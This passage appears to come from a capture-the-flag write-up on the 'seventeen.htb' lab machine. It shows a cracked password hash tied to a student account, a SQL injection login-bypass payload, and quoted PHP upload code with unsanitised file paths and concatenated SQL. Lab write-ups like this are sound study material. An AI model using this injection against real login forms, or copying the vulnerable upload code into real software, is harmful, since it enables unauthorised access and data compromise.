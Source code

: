 finally, we get a hash to crack this time

```
31234:a2afa567b1efdb42d8966353337d9024:autodestruction
```
cross referencing to the student accounts in the webapp, this pass word is for Kelly Shane

[![](/assets/image/attachments/Pasted&#32;image&#32;2020220529173008.png)](/assets/image/attachments/Pasted&#32;image&#32;2020220529173008.png){:.glightbox}


#### file upload
Using the same type of sql injection on the student login at 
http://seventeen.htb/vendor/oldmanagement/

we can get onto the student profile

```
stud_no=12345';-- -&password=asd&login=
```

here there is a file upload functionality but it doesn't seem to be working...

every attempt seems to redirect to http://seventeen.htb/vendor/oldmanagement/save_file.php but not actually upload the file

From the source code of the application we found online earlier, we can see the source code of `save_file.php`

```php
<?php

require_once 'admin/conn.php';

if(ISSET($_POST['save'])){

$stud_no = $_POST['stud_no'];

$file_name = $_FILES['file']['name'];

$file_type = $_FILES['file']['type'];

$file_temp = $_FILES['file']['tmp_name'];

$location = "files/".$stud_no."/".$file_name;

$date = date("Y-m-d, h:i A", strtotime("+8 HOURS"));

if(!file_exists("files/".$stud_no)){

mkdir("files/".$stud_no);

}

if(move_uploaded_file($file_temp, $location)){

mysqli_query($conn, "INSERT INTO `storage` VALUES('', '$file_name', '$file_type', '$date', '$stud_no')") or die(mysqli_error());

header('location: student_profile.php');

}

}

?>
```
it isn't clear why this doesn't work
